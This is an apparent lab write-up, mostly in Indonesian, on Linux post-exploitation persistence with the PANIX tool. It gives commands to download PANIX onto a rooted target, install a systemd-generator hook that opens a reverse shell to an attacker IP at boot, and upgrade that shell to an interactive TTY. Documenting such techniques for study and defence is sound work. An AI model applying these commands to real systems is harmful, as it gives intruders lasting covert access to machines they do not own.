



# Linux Persistence: Getting Started with PANIX

[🇬🇧 Read in English](post-exploitation-persistence-en.md)

Setelah berhasil mendapatkan akses root pada eksperimen sebelumnya, langkah berikutnya adalah mencoba persistence, yaitu teknik yang digunakan oleh attacker maupun pentester untuk mempertahankan akses ke sistem setelah berhasil memperoleh akses awal. Persistence memungkinkan mekanisme akses tetap tersedia setelah kondisi tertentu seperti reboot atau terminasi sesi, tergantung metode persistence yang diterapkan.

Pada eksperimen ini saya menggunakan [PANIX](https://github.com/Aegrah/PANIX), sebuah tools yang menyediakan berbagai teknik Linux persistence. Fokus eksperimen kali ini adalah mencoba salah satu modul persistence yang tersedia, memverifikasi bahwa teknik tersebut berhasil diterapkan, lalu mengamati perubahan yang terjadi pada sistem.

---

## Experiment Flow

```text
Root Access
(from previous experiment)
          │
          ▼
Install PANIX
          │
          ▼
Deploy systemd.generator
          │
          ▼
Reboot System
          │
          ▼
Persistence Triggered
          │
          ▼
Verify Reverse Shell
```

---

# Installation



PANIX perlu diinstal terlebih dahulu pada mesin target. Pada eksperimen ini saya menggunakan hak akses **root**.

```bash
curl -sL https://github.com/Aegrah/PANIX/releases/download/panix-v2.1.0/panix.sh -o panix.sh
chmod +x panix.sh
```

---

# 1. Deploy systemd.generator



Pada eksperimen ini saya mencoba modul **systemd.generator**. Modul ini memanfaatkan mekanisme **systemd generator** yang dijalankan saat proses boot sehingga dapat menjalankan perintah secara otomatis ketika sistem dinyalakan kembali.

Untuk membuat persistence, jalankan perintah berikut pada mesin target.

```bash
bash panix.sh --generator --ip 10.10.10.149 --port 9001
```

---

# 2. Reboot System



Setelah persistence berhasil dibuat, sistem direboot untuk memastikan konfigurasi yang dibuat PANIX berjalan sesuai harapan.

---

# 3. Verify Reverse Shell


Setelah sistem kembali menyala, reverse shell berhasil terhubung kembali ke mesin attacker tanpa perlu mengulangi proses eksploitasi dari awal.

Agar shell lebih nyaman digunakan, saya kemudian mengubahnya menjadi interactive TTY.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color

# Ctrl + Z

stty raw -echo && fg

reset

# Terminal lokal
stty size

# Reverse shell
stty rows 44 columns 237
```

---

## Conclusion

Eksperimen ini menunjukkan bagaimana PANIX dapat digunakan untuk mengotomatisasi pembuatan Linux persistence menggunakan modul **systemd.generator**. Setelah persistence diterapkan, akses dapat diperoleh kembali secara otomatis setelah sistem melakukan boot tanpa perlu mengulangi tahapan eksploitasi sebelumnya.

PANIX sendiri hanyalah salah satu framework yang menyediakan berbagai teknik persistence. Masih banyak tools maupun metode lain yang dapat digunakan dengan tujuan serupa, sehingga framework seperti ini cukup membantu untuk mempelajari, menguji, dan mendokumentasikan berbagai teknik persistence dalam lingkungan lab.

---

## References

### Official Documentation

- PANIX (GitHub)  
  https://github.com/Aegrah/PANIX

- systemd.generator Manual  
  https://man7.org/linux/man-pages/man7/systemd.generator.7.html

- systemd.generator (Ubuntu Documentation)  
  https://manpages.ubuntu.com/manpages/noble/man7/systemd.generator.7.html


### MITRE ATT&CK

- T1547 — Boot or Logon Autostart Execution  
  https://attack.mitre.org/techniques/T1547/

- T1543 — Create or Modify System Process  
  https://attack.mitre.org/techniques/T1543/

- T1543.002 — Systemd Service  
  https://attack.mitre.org/techniques/T1543/002/


### Linux Documentation

- systemd Documentation  
  https://systemd.io/

- systemctl Manual  
  https://www.freedesktop.org/software/systemd/man/systemctl.html

- systemd Service Manager Documentation  
  https://www.freedesktop.org/wiki/Software/systemd/

### Video Practice

- How Hackers Abuse Linux System
  https://www.youtube.com/watch?v=ZaAxeaRt_P8

---

Thank you for reading!

Happy learning! 🔥
